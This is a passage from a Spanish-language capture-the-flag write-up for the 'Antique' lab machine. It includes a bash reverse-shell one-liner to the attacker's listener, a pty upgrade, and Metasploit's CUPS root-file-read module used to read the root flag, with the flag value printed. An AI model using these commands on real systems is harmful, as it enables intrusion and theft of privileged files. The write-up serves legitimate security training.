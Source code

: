 * Desde la máquina víctima, envia una sesión al **handler**:
```bash
bash -i >& /dev/tcp/Tu_IP/4444
```

* Observa el **handler**, ya deberías tener una sesión:
```bash
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Sending stage (38 bytes) to 10.10.11.107
[*] Command shell session 1 opened (Tu_IP:4444 -> 10.10.11.107:50682)
Shell Banner:
bash: cannot set terminal process group (1020): Inappropriate ioctl for device
-----
lp@antique:~$ whoami
whoami
lp
```

* Indicale que importe la **Bash** con **Python** para que funcione mejor el módulo de **CUPS**:
```bash
lp@antique:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
lp@antique:~$
```

Ahora tan solo tenemos que configurar el módulo de **CUPS**:
* Usalo directamente:
```bash
msf6 exploit(multi/handler) > use post/multi/escalate/cups_root_file_read
```

* Configura la sesión y el archivo de la flag:
```bash
msf6 post(multi/escalate/cups_root_file_read) > set SESSION 1
SESSION => 1
msf6 post(multi/escalate/cups_root_file_read) > set FILE /root/root.txt
FILE => /root/root.txt
```

* Ejecuta el Exploit:
```bash
msf6 post(multi/escalate/cups_root_file_read) > exploit
*
[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: shell
[+] User in lpadmin group, continuing...
[+] cupsctl binary found in $PATH
[+] nc binary found in $PATH
[*] Found CUPS 1.6.1
[+] File /root/root.txt (32 bytes) saved to /root/.msf4/loot/20230822161538_default_10.10.11.107_cups_file_read_918928.txt
[*] Cleaning up...
[*] Post module execution completed
-----
cat /root/.msf4/loot/20230822161538_default_10.10.11.107_cups_file_read_918928.txt
105493e09fd1843b6349912d09080136
```
Fue practicamente lo mismo que hicimos, pero este módulo no me funciono tan bien como esperaba, por lo que me quedo con la versión de GitHub.
